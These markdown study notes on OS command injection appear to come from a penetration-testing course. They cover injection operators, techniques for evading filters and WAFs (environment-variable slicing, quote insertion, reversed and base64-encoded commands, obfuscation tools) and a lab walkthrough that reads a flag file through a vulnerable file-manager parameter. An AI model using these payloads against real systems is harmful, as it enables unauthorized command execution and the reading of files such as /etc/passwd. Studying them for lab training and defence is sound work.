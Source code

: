 # Command Injections

1. [Exploitation](#exploitation)
1. [Filter Evasion](#filter-evasion)
1. [Skills Assessment](#skills-assessment)

## Exploitation

* Command injections - user input goes into a web query that executes system commands; due to improper input sanitization

* To inject an additional command to the intended one, we can try using the following operators (both or either of commands get executed) - URL-encoded characters can be tried:

  * ```;``` (%3b)
  * ```\n``` (%0a)
  * ```&``` (%26)
  * ```|``` (%7c)
  * ```&&``` (%26%26)
  * ```||``` (%7c%7c)
  * `` (%60%60) (only on Linux for sub-shell)
  * ```$()``` (%24%28%29) (only on Linux for sub-shell)

* Bypassing front-end validation - we can intercept the requests using Burp Suite or ZAP, and modify the payload by injecting the command, and URL-encoding it.

## Filter Evasion

* Identifying filters:

  * During our command injection attempt, if we get error message in the output field itself, it means it was detected & prevented by the web app itself; it the error is displayed in a different page with additional information, it could indicate a WAF (web app firewall)

* Bypassing blacklisted characters:

  * first we need to identify which characters are blacklisted; add/replace chars (or URL-encode them) one-by-one to payload for input testing

  * [to bypass blacklisted space char](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space), we can use tabs (%09), ```${IFS}```, or brace expansion feature (e.g. - {ls, la} - adds space automatically between arguments)

  * example payload - ```127.0.0.1%0a%09{ls,-la}``` - includes newline, tab and brace expansion

  * we can bypass slash filter using Linux env variables; using ```${PATH:0:1}``` fetches the first char of ```PATH``` env variable, which is '/'

  * similarly, for semi-colon we can use ```${LS_COLORS:10:1}```, and ```${IFS}``` for space

  * we can follow the same technique for Windows CMD and PowerShell, but the payloads would differ

  * character shifting - we can find the next character in ASCII table, and shift character by 1:

    ```shell
    man ascii
    # ';' is 073, while ':' is 072

    echo $(tr '!-}' '"-~'<<<:)
    # this gives ';'
    ```

  * for example, if we want to inject command ```ls /home```, we can use the payload ```127.0.0.1%0a%09ls%09${PATH:0:1}home``` (%0a for newline, %09 for tab or space, and PATH env variable first char for slash)

* Bypassing blacklisted commands:

  * insert certain characters within command that are usually ignored by Bash, PowerShell, like ```'``` and ```"```; so within the payload, our command can be something like ```w'h'o'am'i``` or ```w"ho"a"m"i``` - we cannot mix types of quotes and number of quotes must be even

  * for Linux-only shells, we can use other characters in middle of commands, like ```\``` and ```$@```; in this case, the number of characters do not have to be even. For example - ```who$@ami```, ```w\ho\am\i```

  * for Windows-only shells, we can use other characters such as ```^``` in the middle of the command string

* Advanced command obfuscation:

  * Case manipulation:

    * inverting character cases or alternating between cases; works when command blacklist does not check for case variations
    * Windows (CMD and PowerShell) systems are case-insensitive, while Linux systems are case-sensitive with respect to commands:

      ```shell
      # for Linux

      # this uses alternating case, but we convert it to lowercase with tr
      $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

      # another command to convert to lowercase
      $(a="WhOaMi";printf %s "${a,,}")
      
      # for command injection, we would need to modify payload by replacing spaces with %09
      ```
  
  * Reversed commands:

    ```shell
    # in Linux
    # reverse the string
    echo 'whoami' | rev

    # execute original command by reversing it back in sub-shell
    $(rev<<<'imaohw')
    # <<< is used instead of |
    ```

    ```ps
    # in Windows
    "whoami"[-1..-20] -join ''
    # gives reversed string

    iex "$('imaohw'[-1..-20] -join '')"
    # reverse the string again and execute command
    ```
  
  * Encoded commands:

    * useful for commands containing filtered chars or chars that can be URL-decoded by server

    ```shell
    echo -n 'cat /etc/passwd | grep 33' | base64
    # encode payload which includes filtered chars

    bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
    # command that will decode string in subshell and pass it to bash for executing

    # besides base64, for encoding we can also check openssl or hex, for example
    ```

    ```ps
    # in Windows
    [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
    # base64 encoding

    iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
    # decode string and execute payload
    ```

* Evasion tools:

  * [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator):

    ```shell
    # for obfuscating bash commands
    ./bashfuscator -c 'cat /etc/passwd'
    # randomly generates payload, can increase payload size

    ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
    # using flags to limit payload size and other params

    bash -c '<obfuscated payload>'
    # this executes the command
    ```
  
  * [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation):

    ```ps
    Invoke-DOSfuscation
    # interactive PowerShell module
    # we can interact and create payload

    # once payload is ready, just paste it in CMD to test
    ```

## Skills Assessment

* We are given access to a website with login creds as well.

* Logging in, we can see a file manager functionality; we would have to detect the point where command can be injected first.

* While exploring the page and its different utilities, we can use Burp Suite to capture and intercept these requests, in order to find where a command is probably executed from system - to check where our input can be given.

* We have the 'move' function in the file manager - intercepting the request and viewing the response, we can see the message ```Error while moving: mv: cannot stat '/var/www/html/files/51459716.txt': No such file or directory```.

* This error message shows that ```mv``` in Linux is being used here in the backend; we can try to exploit this.

* The URL is in the format - ```/index.php?to=tmp&from=51459716.txt&finish=1&move=1``` - we can attempt to inject at the end of the ```from``` parameter.

* Already, we can see that ```&``` is part of the URL, and it is also a possible character used in command injection; but we can test with all characters and see which one works.

* For the wrong characters, we get a ```Malicious request denied``` message; we do not get that message when we add the ```&``` character - ```/index.php?to=tmp&from=787113764.txt&&finish=1&move=1 HTTP/1.1```

* However, we cannot inject any command after that without adding tab (```%09```), so we will have to use their URL-encoded forms while making the request - ```/index.php?to=tmp&from=787113764.txt%26%09&finish=1&move=1```

* This gives us an error for ```mv``` - 'missing destination file operand' - this means we are on the right track.

* Trying to inject the command ```ls``` - ```/index.php?to=tmp&from=787113764.txt%26%09ls&finish=1&move=1``` - this gives us a 'Malicious request denied' error again, so we will have to obfuscate this further

* Single quotes don't work, but double quotes do, and we would have to keep it to an even number - ```/index.php?to=tmp&from=787113764.txt%26%09l""s&finish=1&move=1``` - this prints the list of files as expected

* To print list of files in root directory, we would have to use slash, but in obfuscated manner - ```/index.php?to=tmp&from=787113764.txt%26%09l""s%09${PATH:0:1}&finish=1&move=1```

* To print the content of the file - ```/index.php?to=tmp&from=787113764.txt%26%09c""at%09${PATH:0:1}flag.txt&finish=1&move=1```
